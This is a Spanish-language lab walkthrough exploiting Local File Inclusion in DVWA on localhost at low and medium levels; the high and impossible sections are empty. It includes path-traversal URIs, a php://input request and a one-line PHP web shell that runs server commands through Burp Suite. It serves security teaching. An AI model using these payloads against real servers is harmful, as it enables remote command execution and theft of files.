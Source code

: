 # LFI

Local File Inclusion (LFI) es una vulnerabilidad que permite a un atacante leer archivos arbitrarios en el servidor. Esto puede ser utilizado para leer archivos sensibles como `config.php` o para leer el código fuente de la aplicación.

## Bajo

Sabiendo que el archivo `fi.php` existe, podemos intentar leerlo con la siguiente URI:
```
http://localhost/DVWA/vulnerabilities/fi/?page=../../hackable/flags/fi.php
```

![Path Traversal](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/primerPaso.png)
Como se puede observar en la imágen, el archivo `fi.php` es leído y mostrado en la página aunque no hemos conseguido leer las 5 citas que contiene.

Para intetar leer el archivo completo, podemos intentar ejecutar commandos en el servidor, para ello nos ayudaremos de Burp Suite, que nos permitirá modificar la petición que se envía al servidor.

Como primera prueba realizamos una petición GET a la URI para obtener información sobre el servidor:

> **Nota:** Burp Suite debe tener la opcion `Intercept is on` activada para poder modificar las peticiones.

```
http://localhost/DVWA/vulnerabilities/fi/?page=php://input&cmd=id
```

una vez interceptada la petición, podemos modificarla para que se envíe un comando al servidor, para ello añadimmos el siguiente comando al final de la petición y a continuación pulsamos `Forward`:

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

![intercept](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/intercept.png)

como podemos observar en la imágen, el servidor nos devuelve la información del usuario que está ejecutando el servidor web.

![forward](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/forward.png)

Una vez comprobado podemos ejecutar comandos en el servidor, podemos intentar leer el archivo `fi.php` de la misma manera:

```
http://localhost/DVWA/vulnerabilities/fi/?page=php://input&cmd=cat%20/var/www/html/DVWA/hackable/flags/fi.php
```

![challenge](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/challenge.png)

## Medio

Realizando la misma prueba que en el nivel bajo con la URI que conseguia mostrar el contenido del archivo `fi.php`.

```
http://localhost/DVWA/vulnerabilities/fi/?page=php://input&cmd=cat%20/var/www/html/DVWA/hackable/flags/fi.php
```    

Al igual que antes, añadimos la siguiente linea código al final de la petición, de tal manera que ejecute el comando `cat` para leer el archivo `fi.php` y lo muestre en la página.

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

![lfi-m](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/lfi-m.png)

Una vez modificada la petición, pulsamos `Forward` para enviarla al servidor y obtener el contenido del archivo `fi.php`.

![challenge-2](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/challenge-2.png)

## Alto

## Imposible